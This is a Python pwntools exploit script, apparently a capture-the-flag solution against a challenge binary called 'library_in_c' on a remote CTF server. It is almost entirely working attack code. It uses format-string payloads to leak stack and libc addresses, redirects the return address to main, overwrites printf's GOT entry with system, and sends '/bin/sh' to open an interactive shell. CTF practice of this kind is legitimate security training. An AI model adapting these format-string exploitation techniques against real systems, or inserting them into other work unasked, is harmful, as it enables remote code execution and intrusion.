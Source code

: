 ```
    payload += (32-len(payload))*b' '
    payload += p64(where+2)
    payload += p64(where)
    return payload

def check_payload(payload):
    if b'\n' in payload:
        log.error('error, payload contains newline')

context.log_level = "info"

elf = ELF('./library_in_c')
libc = ELF('./libc.so.6')
#libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
main = elf.symbols['main']

#r = process('./library_in_c')
r = remote('shell.actf.co', 20201)
#r = remote('localhost', 8080)

payload_leak = '%24$p %27$p'

r.sendline(payload_leak)
s = r.recvline()
s = r.recvline()
s = r.recvline()

stack_leak = int(s.split(b' ')[-2], 16)
ret_addr = stack_leak -216
libc_leak = int(s.split(b' ')[-1], 16)
libc_address = libc_leak - 0xf0 - libc.symbols['__libc_start_main']
libc_system = libc_address + libc.symbols['system']


log.info(f'return address stored at {hex(ret_addr)}')
log.info(f'libc at {hex(libc_address)}')

payload_ret2main = b'%20$n%64s%21$hn%1799s%22$hn     '
payload_ret2main += p64(ret_addr + 4)
payload_ret2main += p64(ret_addr + 2)
payload_ret2main += p64(ret_addr)

log.info(f'payload to ret2main {payload_ret2main}')
log.info('returning to main')

r.sendline(payload_ret2main)


s = r.recv()

payload_overwrite_got = write(libc_system, elf.symbols['got.printf'])
log.info(f'sending overwrite payload {payload_overwrite_got}')
r.sendline(payload_overwrite_got)
r.sendline(b'/bin/sh\x00')
r.recv()
r.interactive()
```
